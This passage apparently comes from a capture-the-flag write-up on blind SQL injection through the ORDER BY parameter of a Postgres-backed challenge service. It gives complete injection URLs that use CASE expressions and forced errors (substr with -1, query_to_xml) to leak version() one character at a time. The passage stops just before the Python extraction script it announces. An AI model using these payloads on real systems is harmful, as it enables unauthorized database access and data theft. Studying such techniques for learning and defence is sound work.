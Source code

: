 ```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=1)%20then%20%27category%27%20else%20substr(%27a%27,1,-1)%20end
```

This says, when 1=1, order by 'category', else order by subset('a',1,-1)

**Note**: category is in quotes now where it wasn't before.  I learned this by first playing in db fiddle. Both true/false values have to be the same type.

If I give 1=2

```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=2)%20then%20%27category%27%20else%20substr(%27a%27,1,-1)%20end
```

Then it crashes because -1 is not a legal parameter to substr().

There are LOTs of other ways to achieve conditional errors.

In fact, after much playing around, here is one I like better. Use this as the **else** and it will crash on **false**.

```
''||query_to_xml('bad-query',true,true,'')
```

The `''||` prefix coereces the xml to be a string. (again playing ahead of time in db fiddle helps)

Let's try to exfiltrate some information now.

I want to learn what version of Postgres is at play.

This query:
```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(substr(version(),%201,%201)%3E=%27P%27)%20then%20%27category%27%20else%20%27%27||query_to_xml(%27bad-query%27,true,true,%27%27)%20end
```

Has a **case** exprfession of `(substr(version(), 1, 1)>='P')`

This returns JSON.

If we change it to: `(substr(version(), 1, 1)>='Q')` it crashes.

This proves the first character of the `version()` function is 'P'!

If I wanted, I could manualy find each character but that is way too time consuming.

# Finding the Flag

Now that we have a way to exfiltrate, let's write some python.

After reviewing a bunch of Postgres functions, the one that returns the current query is: `current_query()`

So let's exfiltrate this.
